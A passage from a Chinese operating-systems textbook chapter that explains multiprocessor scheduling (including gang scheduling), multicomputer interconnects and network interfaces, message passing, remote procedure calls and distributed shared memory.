线程的实际调度工作在算法的底层进行。它由每个CPU使用优先级或其他的手段分别进行。通过试图让一个线程在其生命周期内在同一个CPU上运行的方法，高速缓存的亲和力得到了最大化。不过，如果某一个CPU没有线程运行，它便选取另一个CPU的一个线程来运行而不是空转。
两级调度算法有三个优点。第一，它把负载大致平均地分配在可用的CPU上；第二，它尽可能发挥了高速缓存亲和力的优势；第三，通过为每个CPU提供一个私有的就绪线程链表，使得对就绪线程链表的竞争减到了最小，因为试图使用另一个CPU的就绪线程链表的机会相对较小。
2.空间共享
当线程之间以某种方式彼此相关时，可以使用其他多处理机调度方法。前面我们叙述过的并行make就是一个例子。经常还有一个线程创建多个共同工作的线程的情况发生。例如当一个进程的多个线程间频繁地进行通信，让其在同一时间执行就显得尤为重要。在多个CPU上同时调度多个线程称为空间共享（space sharing）。
最简单的空间共享算法是这样工作的。假设一组相关的线程是一次性创建的。在其创建的时刻，调度程序检查是否有同线程数量一样多的空闲CPU存在。如果有，每个线程获得各自专用的CPU（非多道程序处理）并且都开始运行。如果没有足够的CPU，就没有线程开始运行，直到有足够的CPU时为止。每个线程保持其CPU直到它终止，并且该CPU被送回可用CPU池中。如果一个线程在I/O上阻塞，它继续保持其CPU，而该CPU就空闲直到该线程被唤醒。在下一批线程出现时，应用同样的算法。
在任何一个时刻，全部CPU被静态地划分成若干个分区，每个分区都运行一个进程中的线程。例如，在图8-13中，分区的大小是4、6、8和12个CPU，有两个CPU没有分配。随着时间的流逝，新的线程创建，旧的线程终止，CPU分区大小和数量都会发生变化。
必须进行周期性的调度决策。在单处理机系统中，最短作业优先是批处理调度中知名的算法。在多处理机系统中类似的算法是，选择需要最少的CPU周期数的线程，也就是其CPU周期数×运行时间最小的线程为候选线程。然而，在实际中，这一信息很难得到，因此该算法难以实现。事实上，研究表明，要胜过先来先服务算法是非常困难的（Krueger等人，1994）。
在这个简单的分区模型中，一个线程请求一定数量的CPU，然后或者全部得到它们或者一直等到有足够数量的CPU可用为止。另一种处理方式是主动地管理线程的并行度。管理并行度的一种途径是使用一个中心服务器，用它跟踪哪些线程正在运行，哪些线程希望运行以及所需CPU的最小和最大数量（Tucker和Gupta，1989）。每个应用程序周期性地询问中心服务器有多少个CPU可用。然后它调整线程的数量以符合可用的数量。例如，一台Web服务器可以5、10、20或任何其他数量的线程并行运行。如果它当前有10个线程，突然，系统对CPU的需求增加了，于是它被通知可用的CPU数量减到了5个，那么在接下来的5个线程完成其当前工作之后，它们就被通知退出而不是给予新的工作。这种机制允许分区大小动态地变化，以便与当前负载相匹配，这种方法优于图8-13中的固定系统。
3.群调度（Gang Scheduling）
空间共享的一个明显优点是消除了多道程序设计，从而消除了上下文切换的开销。但是，一个同样明显的缺点是当CPU被阻塞或根本无事可做时时间被浪费了，只有等到其再次就绪。于是，人们寻找既可以调度时间又可以调度空间的算法，特别是对于要创建多个线程而这些线程通常需要彼此通信的线程。
为了考察一个进程的多个线程被独立调度时会出现的问题，设想一个系统中有线程A0 和A1 属于进程A，而线程B0 和B1 属于进程B。线程A0 和B0 在CPU 0上分时；而线程A1 和B1 在CPU 1上分时。线程A0 和A1 需要经常通信。其通信模式是，A0 送给A1 一个消息，然后A1 回送给A0 一个应答，紧跟的是另一个这样的序列。假设正好是A0 和B1 首先开始，如图8-14所示。
在时间片0，A0 发给A1 一个请求，但是直到A1 在开始于100ms的时间片1中开始运行时它才得到该消息。它立即发送一个应答，但是直到A0 在200ms再次运行时它才得到该应答。最终结果是每200ms一个请求-应答序列。这个结果并不好。
这一问题的解决方案是群调度（gang scheduling），它是协同调度（co-scheduling）（Outsterhout，1982）的发展产物。群调度由三个部分组成：
1)把一组相关线程作为一个单位，即一个群（gang），一起调度。
2)一个群中的所有成员在不同的分时CPU上同时运行。
3)群中的所有成员共同开始和结束其时间片。
使群调度正确工作的关键是，同步调度所有的CPU。这意味着把时间划分为离散的时间片，如图8-14中所示。在每一个新的时间片开始时，所有的CPU都重新调度，在每个CPU上都开始一个新的线程。在后续的时间片开始时，另一个调度事件发生。在这之间，没有调度行为。如果某个线程被阻塞，它的CPU保持空闲，直到对应的时间片结束为止。
有关群调度是如何工作的例子在图8-15中给出。图8-15中有一台带6个CPU的多处理机，由5个进程A到E使用，总共有24个就绪线程。在时间槽（time slot）0，线程A0 至A6 被调度运行。在时间槽1，调度线程B0 、B1 、B2 、C0 、C1 和C2 被调度运行。在时间槽2，进程D的5个线程以及E0 运行。剩下的6个线程属于E，在时间槽3中运行。然后周期重复进行，时间槽4与时间槽0一样，以此类推。
群调度的思想是，让一个进程的所有线程一起运行，这样，如果其中一个线程向另一个线程发送请求，接受方几乎会立即得到消息，并且几乎能够立即应答。在图8-15中，由于进程的所有线程在同一个时间片内一起运行，它们可以在一个时间片内发送和接受大量的消息，从而消除了图8-14中的问题。
多处理机流行和有吸引力的原因是，它们提供了一个简单的通信模型：所有CPU共享一个公用存储器。进程可以向存储器写消息，然后被其他进程读取。可以使用互斥信号量、信号量、管程（monitor）和其他适合的技术实现同步。惟一美中不足的是，大型多处理机构造困难，因而造价高昂。
为了解决这个问题，人们在多计算机（multicomputers）领域中进行了很多研究。多计算机是紧耦合CPU，不共享存储器。每台计算机有自己的存储器，如图8-1b所示。众所周知，这些系统有各种其他的名称，如机群计算机（cluster computers）以及工作站机群（Clusters of Workstations，COWS）。
多计算机容易构造，因为其基本部件只是一台配有高性能网络接口卡的PC裸机。当然，获得高性能的秘密是巧妙地设计互连网络以及接口卡。这个问题与在一台多处理机中构造共享存储器是完全类似的。但是，由于目标是在微秒（microsecond）数量级上发送消息，而不是在纳秒（nanosecond）数量级上访问存储器，所以这是一个相对简单、便宜且容易实现的任务。
在下面几节中，我们将首先简要地介绍多计算机硬件，特别是互连硬件。然后，我们将讨论软件，从低层通信软件开始，接着是高层通信软件。我们还将讨论在没有共享存储器的系统中实现共享存储器的方法。最后，我们将讨论调度和负载平衡的问题。
一台多计算机的基本节点包括一个CPU、存储器、一个网络接口，有时还有一个硬盘。节点可以封装在标准的PC机箱中，不过通常没有图像适配卡、显示器、键盘和鼠标等。在某些情况下，PC机中有一块2通道或4通道的多处理机主板，可能带有双核或者四核芯片而不是单个CPU，不过为了简化问题，我们假设每个节点有一个CPU。通常成百个甚至上千个节点连接在一起组成一个多计算机。下面我们将介绍一些关于硬件如何组织的内容。
1.互连技术
在每个节点上有一块网卡，带有一根或两根从网卡上接出的电缆（或光纤）。这些电缆或者连到其他的节点上，或者连到交换机上。在小型系统中，可能会有一个按照图8-16a的星型拓扑结构连接所有节点的的交换机。现代交换型以太网就采用了这种拓扑结构。
作为单一交换机设计的另一种选择，节点可以组成一个环，有两根线从网络接口卡上出来，一根去连接左面的节点，另一根去连接右面的节点，如图8-16b所示。在这种拓扑结构中不需要交换机，所以图中也没有。
图8-16c中的网格（grid或mesh）是一种在许多商业系统中应用的二维设计。它相当规整，而且容易扩展为大规模系统。这种系统有一个直径（diameter），即在任意两个节点之间的最长路径，并且该值只按照节点数目的平方根增加。网格的变种是双凸面（double torus），如图8-16d所示，这是一种边连通的网格。这种拓扑结构不仅较网格具有更强的容错能力而且其直径也比较小，因为对角之间的通信只需要两跳。
图8-16e中的立方体（cube）是一种规则的三维拓扑结构。我们展示的是2×2×2立方体，更一般的情形则是k×k×k立方体。在图8-16f中，是一种用两个三维立方体加上对应边连接所组成四维立方体。我们可以仿照图8-16f的结构并且连接对应的节点以组成四个立方体组块来制作五维立方体。为了实现六维，可以复制四个立方体的块并把对应节点互连起来，以此类推。以这种形式组成的n维立方体称为超立方体（hypercube）。许多并行计算机采用这种拓扑结构，因为其直径随着维数的增加线性增长。换句话说，直径是节点数的自然对数，例如，一个10维的超立方体有1024个节点，但是其直径仅为10，有着出色的延迟特性。注意，与之相反的是，1024的节点如果按照32×32网格布局则其直径为62，较超立方体相差了六倍多。对于超立方体而言，获得较小直径的代价是扇出数量（fanout）以及由此而来的连接数量（及成本）的大量增加。
在多计算机中可采用两种交换机制。在第一种机制里，每个消息首先被分解（由用户软件或网络接口进行）成为有最大长度限制的块，称为包（packet）。该交换机制称为存储转发包交换（store-and-forward packet switching），由源节点的网络接口卡注入到第一个交换机的包组成，如图8-17a所示。比特串一次进来一位，当整个包到达一个输入缓冲区时，它被复制到沿着其路径通向下一个交换机的队列当中，如图8-17b所示。当包到达目标节点所连接的交换机时，如图8-17c所示，该包被复制进入目标节点的网络接口卡，并最终到达其RAM。
尽管存储转发包交换灵活且有效，但是它存在通过互连网络时增加时延（延迟）的问题。假设在图8-17中把一个包传送一跳所花费的时间为T纳秒。为了从CPU 1到CPU 2，该包必须被复制四次（至A、至C、至D以及到目标CPU），而且在前一个包完成之前，不能开始有关的复制，所以通过该互连网络的时延是4T。一条出路是设计一个网络，其中的包可以逻辑地划分为更小的单元。只要第一个单元到达一个交换机，它就被转发到下一个交换机，甚至可以在包的结尾到达之前进行。可以想象，这个传送单元可以小到1比特。
另一种交换机制是电路交换（circuit switching），它包括由第一个交换机建立的，通过所有交换机而到达目标交换机的一条路径。一旦该路径建立起来，比特流就从源到目的地通过整个路径不断地尽快输送。在所涉及的交换机中，没有中间缓冲。电路交换需要有一个建立阶段，它需要一点时间，但是一旦建立完成，速度就很快。在包发送完毕之后，该路径必须被拆除。电路交换的一种变种称为虫孔路由（wormhole routing），它把每个包拆成子包，并允许第一个子包在整个路径还没有完全建立之前就开始流动。
2.网络接口
在多计算机中，所有节点里都有一块插卡板，它包含节点与互连网络的连接，这使得多计算机连成一体。这些板的构造方式以及它们如何同主CPU和RAM连接对操作系统有重要影响。这里简要地介绍一些有关的内容。部分内容来源于（Bhoedjang，2000）。
事实上在所有的多计算机中，接口板上都有一些用来存储进出包的RAM。通常，在包被传送到第一个交换机之前，这个要送出的包必须被复制到接口板的RAM中。这样设计的原因是许多互连网络是同步的，所以一旦一个包的传送开始，比特流必须以恒定的速率连续进行。如果包在主RAM中，由于内存总线上有其他的信息流，所以这个送到网络上的连续流是不能保证的。在接口板上使用专门的RAM，就消除了这个问题。这种设计如图8-18所示。
同样的问题还出现在接收进来的包上。从网络上到达的比特流速率是恒定的，并且经常有非常高的速率。如果网络接口卡不能在它们到达的时候实时存储它们，数据将会丢失。同样，在这里试图通过系统总线（例如PCI总线）到达主RAM是非常危险的。由于网卡通常插在PCI总线上，这是一个惟一的通向主RAM的连接，所以不可避免地要同磁盘以及每个其他的I/O设备竞争总线。而把进来的包首先保存在接口板的私有RAM中，然后再把它们复制到主RAM中，则更安全些。
接口板上可以有一个或多个DMA通道，甚至在板上有一个完整的CPU（乃至多个CPU）。通过请求在系统总线上的块传送（block transfer），DMA通道可以在接口板和主RAM之间以非常高的速率复制包，因而可以一次性传送若干字而不需要为每个字分别请求总线。不过，准确地说，正是这种块传送（它占用了系统总线的多个总线周期）使接口板上的RAM的需要是第一位的。
很多接口板上有一个完整的CPU，可能另外还有一个或多个DMA通道。它们被称为网络处理器（network processor），并且其功能日趋强大。这种设计意味着主CPU将一些工作分给了网卡，诸如处理可靠的传送（如果底层的硬件会丢包）、多播（将包发送到多于一个的目的地）、压缩/解压缩、加密/解密以及在多进程系统中处理安全事务等。但是，有两个CPU则意味着它们必须同步，以避免竞争条件的发生，这将增加额外的开销，并且对于操作系统来说意味着要承担更多的工作。
在多计算机系统中高性能通信的敌人是对包的过度复制。在最好的情形下，在源节点会有从RAM到接口板的一次复制，从源接口板到目的接口板的一次复制（如果在路径上没有存储和转发发生）以及从目的接口板再到目的地RAM的一次复制，这样一共有三次复制。但是，在许多系统中情况要糟糕得多。特别是，如果接口板被映射到内核虚拟地址空间中而不是用户虚拟地址空间的话，用户进程只能通过发出一个陷入到内核的系统调用的方式来发送包。内核会同时在输入和输出时把包复制到自己的存储空间去，从而在传送到网络上时避免出现缺页异常（page fault）。同样，接收包的内核在有机会检查包之前，可能也不知道应该把进来的包放置到哪里。上述五个复制步骤如图8-18所示。
如果说进出RAM的复制是性能瓶颈，那么进出内核的额外复制会将端到端的延迟加倍，并把吞吐量（throughput）降低一半。为了避免这种对性能的影响，不少多计算机把接口板映射到用户空间，并允许用户进程直接把包送到卡上，而不需要内核的参与。尽管这种处理确实改善了性能，但却带来了两个问题。
首先，如果在节点上有若干个进程运行而且需要访问网络以发送包，该怎么办？哪一个进程应该在其地址空间中获得接口板呢？映射拥有一个系统调用将接口板映射进出一个虚拟地址空间，其代价是很高的，但是，如果只有一个进程获得了卡，那么其他进程该如何发送包呢？如果网卡被映射进了进程A的虚拟地址空间，而所到达的包却是进程B的，又该怎么办?尤其是，如果A和B属于不同的所有者，其中任何一方都不打算协助另一方，又怎么办？
一个解决方案是，把接口板映射到所有需要它的进程中去，但是这样做就需要有一个机制用以避免竞争。例如，如果A申明接口板上的一个缓冲区，而由于时间片，B开始运行并且申明同一个缓冲区，那么就会发生灾难。需要有某种同步机制，但是那些诸如互斥信号量（mutex）一类的机制需要在进程会彼此协作的前提下才能工作。在有多个用户的分时环境下，所有的用户都希望其工作尽快完成，某个用户也许会锁住与接口板有关的互斥信号量而不肯释放。从这里得到的结论是，对于将接口板映射到用户空间的方案，只有在每个节点上只有一个用户进程运行时才能够发挥作用，否则必须设置专门的预防机制（例如，对不同的进程可以把接口板上RAM的不同部分映射到各自的地址空间）。
第二个问题是，内核本身会经常需要访问互连网络，例如，访问远程节点上的文件系统。如果考虑让内核与任何用户共享同一块接口板，即便是基于分时方式，也不是一个好主意。假设当板被映射到用户空间，收到了一个内核的包，那么怎么办？或者若某个用户进程向一个伪装成内核的远程机器发送了一个包，又该怎么办？结论是，最简单的设计是使用两块网络接口板，一块映射到用户空间供应用程序使用，另一块映射到内核空间供操作系统使用。许多多计算机就正是这样做的。
节点至网络接口通信
下一个问题是如何将包送到接口板上。最快的方法是使用板上的DMA芯片直接将它们从RAM复制到板上。这种方式的问题是，DMA使用物理地址而不是虚拟地址，并且独立于CPU运行。首先，尽管一个用户进程肯定知道它打算发送的任何包所在的虚拟地址，但它通常不知道有关的物理地址。设计一个系统调用进行虚拟地址到物理地址的映射是不可取的，因为把接口板放到用户空间的首要原因就是为了避免不得不为每个要发送的包进行一次系统调用。
另外，如果操作系统决定替换一个页面，而DMA芯片正在从该页面复制一个包，就会传送错误的数据。然而更加糟糕的是，如果操作系统在替换某一个页面的同时DMA芯片正在把一个包复制进该页面，结果不仅进来的包会丢失，无辜的存储器页面也会被毁坏。
为了以避免上述问题，可采用一类将页面钉住和释放的系统调用，把有关页面标记成暂时不可交换的。但是不仅需要有一个系统调用钉住含有每个输出包的页面，还要有另一个系统调用进行释放工作，这样做的代价太大。如果包很小，比如64字节或更小，就不能忍受钉住和释放每个缓冲区的开销。对于大的包，比如说1KB或更大，也许会容忍相关开销。对于大小在这两者之间的包，就要取决于硬件的具体情况了。除了会对性能带来影响，钉住和释放页面将会增加软件的复杂性。
在多计算机中，不同CPU上的进程通过互相发送消息实现通信。在最简单的情况下，这种消息传送是暴露给用户进程的。换句话说，操作系统提供了一种发送和接收消息的途径，而库过程使得这些低层的调用对用户进程可用。在较复杂的情形下，通过使得远程通信看起来像过程调用的办法，将实际的消息传递对用户隐藏起来。下面将讨论这两种方法。
1.发送和接收
在最简化的的情形下，所提供的通信服务可以减少到两个（库）调用，一个用于发送消息，另一个用于接收消息。发送一条消息的调用可能是
send(dest,＆mptr);
而接收消息的调用可能是
receive(addr,＆mptr);
前者把由mptr参数所指向的消息发送给由dest参数所标识的进程，并且引起对调用者的阻塞，直到该消息被发出。后者引起对调用者的阻塞，直到消息到达。该消息到达后，被复制到由mptr参数所指向的缓冲区，并且撤销对调用者的阻塞。addr参数指定了接收者要监听的地址。这两个过程及其参数有许多可能的变种。
一个问题是如何编址。由于多计算机是静态的，CPU数目是固定的，所以处理编址问题的最便利的办法是使addr由两部分的地址组成，其中一部分是CPU编号，另一部分是在这个已编址的CPU上的一个进程或端口的编号。在这种方式中，每个CPU可以管理自己的地址而不会有潜在的冲突。
2.阻塞调用和非阻塞调用
上面所叙述的调用是阻塞调用（有时称为同步调用）。当一个进程调用send时，它指定一个目标以及用以发送消息到该目标的一个缓冲区。当消息发送时，发送进程被阻塞（挂起）。在消息已经完全发送出去之前，不会执行跟随在调用send后面的指令，如图8-19a所示。类似地，在消息真正接收并且放入由参数指定的消息缓冲区之前，对receive的调用也不会把控制返回。在receive中进程保持挂起状态，直到消息到达为止，这甚至有可能等待若干小时。在有些系统中，接收者可以指定希望从谁处接收消息，在这种情况下接收者就保持阻塞状态，直到来自那个发送者的消息到达为止。
相对于阻塞调用的另一种方式是非阻塞调用（有时称为异步调用）。如果send是非阻塞的，在消息发出之前，它立即将控制返回给调用者。这种机制的优点是发送进程可以继续运算，与消息传送并行，而不是让CPU空闲（假设没有其他可运行的进程）。通常是由系统设计者做出在阻塞原语和非阻塞原语之间的选择（或者使用这种原语或者另一种原语），当然也有少数系统中两种原语同时可用，而让用户决定其喜好。
但是，非阻塞原语所提供的性能优点被其严重的缺点所抵消了：直到消息被送出发送者才能修改消息缓冲区。进程在传输过程中重写消息的后果是如此可怕以致不得不慎重考虑。更糟的是，发送进程不知道传输何时会结束，所以根本不知道什么时候重用缓冲区是安全的。不可能永远避免再碰缓冲区。
有三种可能的解决方案。第一种方案是，让内核复制这个消息到内部的内核缓冲区，然后让进程继续，如图8-19b所示。从发送者的观点来看，这个机制与阻塞调用相同：只要进程获得控制，就可以随意重用缓冲区了。当然，消息还没有发送出去，但是发送者是不会被这种情况所妨碍的。这个方案的缺点是对每个送出的消息都必须将其从用户空间复制进内核空间。面对大量的网络接口，消息最终要复制进硬件的传输缓冲区中，所以第一次的复制实质上是浪费。额外的复制会明显地降低系统的性能。
第二种方案是，当消息发送之后中断发送者，告知缓冲区又可以使用了。这里不需要复制。从而节省了时间，但是用户级中断使编写程序变得棘手，并可能会要处理竞争条件，这些都使得该方案难以设计并且几乎无法调试。
第三种方案是，让缓冲区写时复制（copy on write），也就是说，在消息发送出去之前将其标记为只读。在消息发送出去之前，如果缓冲区被重用，则进行复制。这个方案的问题是，除非缓冲区被孤立在自己的页面上，否则对临近变量的写操作也会导致复制。此外，需要有额外的管理，因为这样的发送消息行为隐含着对页面读/写状态的影响。最后，该页面迟早会再次被写入，它会触发一次不再必要的复制。
这样，在发送端的选择是
1)阻塞发送（CPU在消息传输期间空闲）。
2)带有复制操作的非阻塞发送（CPU时间浪费在额外的复制上）。
3)带有中断操作的非阻塞发送（造成编程困难）。
4)写时复制（最终可能也会需要额外的复制）。
在正常条件下，第一种选择是最好的，特别是在有多线程的情况下，此时当一个线程由于试图发送被阻塞后，其他线程还可以继续工作。它也不需要管理任何内核缓冲区。而且，正如将图8-19a和图8-19b进行比较所见到的，如果不需要复制，通常消息会被更快地发出。
请注意，有必要指出，有些作者使用不同的判别标准区分同步和异步原语。另一种观点认为，只有发送者一直被阻塞到消息已被接收并且有响应发送回来时为止，才是同步的（Andrews，1991）。但是，在实时通信领域中，同步有着其他的含义，不幸的是，它可能会导致混淆。
正如send可以是阻塞的和非阻塞的一样，receive也同样可以是阻塞的和非阻塞的。阻塞调用就是挂起调用者直到消息到达为止。如果有多线程可用，这是一种简单的方法。另外，非阻塞receive只是通知内核缓冲区所在的位置，并几乎立即返回控制。可以使用中断来告知消息已经到达。然而，中断方式编程困难，并且速度很慢，所以也许对于接收者来说，更好的方法是使用一个过程poll轮询进来的消息。该过程报告是否有消息正在等待。若是，调用者可调用get_message，它返回第一个到达的消息。在有些系统中，编译器可以在代码中合适的地方插入poll调用，不过，要掌握以怎样的频度使用poll则是需要技巧的。
还有另一个选择，其机制是在接收者进程的地址空间中，一个消息的到达自然地引起一个新线程的创建。这样的线程称为弹出式线程（pop-up thread）。这个线程运行一个预定义的过程，其参数是一个指向进来消息的指针。在处理完这个消息之后，该线程直接退出并被自动撤销。
尽管消息传递模型提供了一种构造多计算机操作系统的便利方式，但是它有不可救药的缺陷：构造所有通信的范型（paradigm）都是输入/输出。过程send和receive基本上在做I/O工作，而许多人认为I/O就是一种错误的编程模型。
这个问题很早就为人所知，但是一直没有什么进展，直到Birrell和Nelson在其论文（Birrell和Nelson，1984）中引进了一种完全不同的方法来解决这个问题。尽管其思想是令人吃惊的简单（曾经有人想到过），但其含义却相当精妙。在本节中，我们将讨论其概念、实现、优点以及缺点。
简言之，Birrell和Nelson所建议的是，允许程序调用位于其他CPU中的过程。当机器1的进程调用机器2的过程时，在机器1中的调用进程被挂起，在机器2中被调用的过程执行。可以在参数中传递从调用者到被调用者的信息，并且可在过程的处理结果中返回信息。根本不存在对程序员可见的消息传递或I/O。这种技术即是所谓的远程过程调用（Remote Procedure Call，RPC），并且已经成为大量多计算机的软件的基础。习惯上，称发出调用的过程为客户机，而称被调用的过程为服务器，我们在这里也将采用这些名称。
RPC背后的思想是尽可能使远程过程调用像本地调用。在最简单的情形下，要调用一个远程过程，客户程序必须被绑定在一个称为客户端桩（client stub）的小型库过程上，它在客户机地址空间中代表服务器过程。类似地，服务器程序也绑定在一个称为服务器端桩（server stub）的过程上。这些过程隐藏了这样一个事实，即从客户机到服务器的过程调用并不是本地调用。
进行RPC的实际步骤如图8-20所示。第1步是客户机调用客户端桩。该调用是一个本地调用，其参数以通常方式压入栈内。第2步是客户端桩将有关参数打包成一条消息，并进行系统调用来发出该消息。这个将参数打包的过程称为编排（marshaling）。第3步是内核将该消息从客户机发给服务器。第4步是内核将接收进来的消息传送给服务器端桩（通常服务器端桩已经提前调用了receive）。最后，第5步是服务器端桩调用服务器过程。应答则是在相反的方向沿着同一步骤进行。
这里需要说明的关键是由用户编写的客户机过程，只进行对客户端桩的正常（本地）调用，而客户端桩与服务器过程同名。由于客户机过程和客户端桩在同一个地址空间，所以有关参数以正常方式传递。类似地，服务器过程由其所在的地址空间中的一个过程用它所期望的参数进行调用。对服务器过程而言，一切都很正常。通过这种方式，不采用带有send和receive的I/O，通过伪造一个普通的过程调用而实现了远程通信。
实现相关的问题
无论RPC的概念是如何优雅，但是“在草丛中仍然有几条蛇隐藏着”。一大条就是有关指针参数的使用。通常，给过程传递一个指针是不存在问题的。由于两个过程都在同一个虚拟地址空间中，所以被调用的过程可以使用和调用者同样的方式来运用指针。但是，由于客户机和服务器在不同的地址空间中，所以用RPC传递指针是不可能的。
在某些情形下，可以使用一些技巧使得传递指针成为可能。假设第一个参数是一个指针，它指向一个整数k。客户端桩可以编排k并把它发送给服务器。然后服务器端桩创建一个指向k的指针并把它传递给服务器过程，这正如服务器所期望的一样。当服务器过程把控制返回给服务器端桩后，后者把k送回客户机，这里新的k覆盖了原来旧的，只是因为服务器修改了它。实际上，通过引用调用（call-by-reference）的标准调用序列被复制-恢复（copy-restore）所替代了。然而不幸的是，这个技巧并不是总能正常工作的，例如，如果要把指针指向一幅图像或其他的复杂数据结构就不行。由于这个原因，对于被远程调用的过程而言，必须对参数做出某些限制。
第二个问题是，对于弱类型的语言，如C语言，编写一个过程用于计算两个矢量（数组）的内积且不规定其任何一个矢量的大小，这是完全合法的。每个矢量可以由一个指定的值所终止，而只有调用者和被调用的过程掌握该值。在这样的条件下，对于客户端桩而言，基本上没有可能对这种参数进行编排：没有办法能确定它们有多大。
第三个问题是，参数的类型并不总是能够推导出的，甚至不论是从形式化规约还是从代码自身。这方面的一个例子是printf，其参数的数量可以是任意的（至少一个），而且它们的类型可以是整形、短整形、长整形、字符、字符串、各种长度的浮点数以及其他类型的任意混合。试图把printf作为远程过程调用实际上是不可能的，因为C是如此的宽松。然而，如果有一条规则说假如你不使用C或者C++来进行编程才能使用RPC，那么这条规则是不会受欢迎的。
第四个问题与使用全局变量有关。通常，调用者和被调用过程除了使用参数之外，还可以通过全局变量通信。如果被调用过程此刻被移到远程机器上，代码将失效，因为全局变量不再是共享的了。
这里所叙述的问题并不表示RPC就此无望了。事实上，RPC被广泛地使用，不过在实际中为了使RPC正常工作需要有一些限制和仔细的考虑。
虽然RPC有它的吸引力，但即便是在多计算机里，很多程序员仍旧偏爱共享存储器的模型并且愿意使用它。让人相当吃惊的是，采用一种称为分布式共享存储器（Distributed Shared Memory，DSM）（Li，1986；Li和Hudak，1989）的技术，就有可能很好地保留共享存储器的幻觉，尽管这个共享存储器实际并不存在。有了DSM，每个页面都位于如图8-1所示的某一个存储器中。每台机器有其自己的虚拟内存和页表。当一个CPU在一个它并不拥有的页面上进行LOAD和STORE时，会陷入到操作系统当中。然后操作系统对该页面进行定位，并请求当前持有该页面的CPU解除对该页面的映射并通过互连网络发送该页面。在该页面到达时，页面被映射进来，于是出错指令重新启动。事实上，操作系统只是从远程RAM中而不是从本地磁盘中满足了这个缺页异常。对用户而言，机器看起来拥有共享存储器。
实际的共享存储器和DSM之间的差别如图8-21所示。在图8-21a中，是一台配有通过硬件实现的物理共享存储器的真正的多处理机。在图8-21b中，是由操作系统实现的DSM。在图8-21c中，我们看到另一种形式的共享存储器，它通过更高层次的软件实现。在本章的后面部分，我们会讨论第三种方式，不过现在还是专注于讨论DSM。
先考察一些有关DSM是如何工作的细节。在DSM系统中，地址空间被划分为页面（page），这些页面分布在系统中的所有节点上。当一个CPU引用一个非本地的地址时，就产生一个陷阱，DSM软件调取包含该地址的页面并重新开始出错指令。该指令现在可以完整地执行了。这一概念如图8-22a所示，该系统配有16个页面的地址空间，4个节点，每个节点能持有6个页面。
在这个例子中，如果CPU 0引用的指令或数据在页面0、2、5或9中，那么引用在本地完成。引用其他的页面会导致陷入。例如，对页面10的引用会导致陷入到DSM软件，该软件把页面10从节点1移到节点0，如图8-22b所示。
1.复制
对基本系统的一个改进是复制那些只读页面，如程序代码、只读常量或其他只读数据结构，它可以明显地提高性能。举例来说，如果在图8-22中的页面10是一段程序代码，CPU 0对它的使用可以导致将一个副本送往CPU 0，从而不用打扰CPU 1的原有存储器，如图8-22c所示。在这种方式中，CPU 0和CPU 1两者可以按需要经常同时引用页面10，而不会产生由于引用不存在的存储器页面而导致的陷阱。
另一种可能是，不仅复制只读页面，而且复制所有的页面。只要有读操作在进行，实际上在只读页面的复制和可读写页面的复制之间不存在差别。但是，如果一个被复制的页面突然被修改了，就必须采取必要的措施来避免多个不一致的副本存在。如何避免不一致性将在下面几节中进行讨论。
2.伪共享
在某些关键方式上DSM系统与多处理机类似。在这两种系统中，当引用非本地存储器字时，从该字所在的机器上取包含该字的一块内存，并放到进行引用的（分别是内存储器或高速缓存）相关机器上。一个重要的设计问题是应该调取多大一块。在多处理机中，其高速缓存块的大小通常是32字节或64字节，这是为了避免占用总线传输的时间过长。在DSM系统中，块的单位必须是页面大小的整数倍（因为MMU以页面方式工作），不过可以是1个、2个、4个或更多个页面。事实上，这样做就模拟了一个更大尺寸的页面。
对于DSM而言，较大的页面大小有优点也有缺点。其最大的优点是，因为网络传输的启动时间是相当长的，所以传递4096字节并不比传输1024个字节多花费多少时间。在有大量的地址空间需要移动时，通过采用大单位的数据传输，通常可减少传输的次数。这个特性是非常重要的，因为许多程序表现出引用上的局部性，其含义是如果一个程序引用了某页中的一个字，很可能在不久的将来它还会引用同一个页面中其他字。
另一方面，大页面的传输造成网络长期占用，阻塞了其他进程引起的故障。还有，过大的有效页面引起了另一个问题，称为伪共享（false sharing），如图8-23所示。图8-23中一个页面中含有两个无关的共享变量A和B。进程1大量使用A，进行读写操作。类似地，进程2经常使用B。在这种情形下，含有这两个变量的页面将在两台机器中来回地传送。
这里的问题是，尽管这些变量是无关的，但它们碰巧在同一个页面内，所以当某个进程使用其中一个变量时，它也得到另一个。有效页面越大，发生伪共享的可能性也越高；相反，有效页面越小，发生伪共享的可能性也越少。在普通的虚拟内存系统中不存在类似的现象。
理解这个问题并把变量放在相应的地址空间中的高明编译器能够帮助减少伪共享并改善性能。但是，说起来容易做起来难。而且，如果伪共享中节点1使用某个数组中的一个元素，而节点2使用同一数组中的另一个元素，那么即使再高明的编译器也没有办法消除这个问题。
3.实现顺序一致性
如果不对可写页面进行复制，那么实现一致性是没有问题的。每个可写页面只对应有一个副本，在需要时动态地来回移动。由于并不是总能提前了解哪些页面是可写的，所以在许多DSM系统中，当一个进程试图读一个远程页面时，则复制一个本地副本，在本地和远程各自对应的MMU中建立只读副本。只要所有的引用都做读操作，那么一切正常。
但是，如果有一个进程试图在一个被复制的页面上写入，潜在的一致性问题就会出现，因为只修改一个副本却不管其他副本的做法是不能接受的。这种情形与在多处理机中一个CPU试图修改存在于多个高速缓存中的一个字的情况有类似之处。在多处理机中的解决方案是，要进行写的CPU首先将一个信号放到总线上，通知所有其他的CPU丢弃该高速缓存块的副本。这里的DSM系统以同样的方式工作。在对一个共享页面进行写入之前，先向所有持有该页面副本的CPU发出一条消息，通知它们解除映射并丢弃该页面。在其所有解除映射等工作完成之后，该CPU便可以进行写操作了。
在有详细约束的情况下，允许可写页面的多个副本存在是有可能的。一种方法是允许一个进程获得在部分虚拟地址空间上的一把锁，然后在被锁住的存储空间中进行多个读写操作。在该锁被释放时，产生的修改可以传播到其他副本上去。只要在一个给定的时刻只有一个CPU能锁住某个页面，这样的机制就能保持一致性。
另一种方法是，当一个潜在可写的页面被第一次真正写入时，制作一个“干净”的副本并保存在发出写操作的CPU上。然后可在该页上加锁，更新页面，并释放锁。稍后，当一个远程机器上的进程试图获得该页面上的锁时，先前进行写操作的CPU将该页面的当前状态与“干净”副本进行比较并构造一个有关所有已修改的字的列表，该列表接着被送往获得锁的CPU，这样它就可以更新其副本页面而不用废弃它（Keleher等人，1994）。
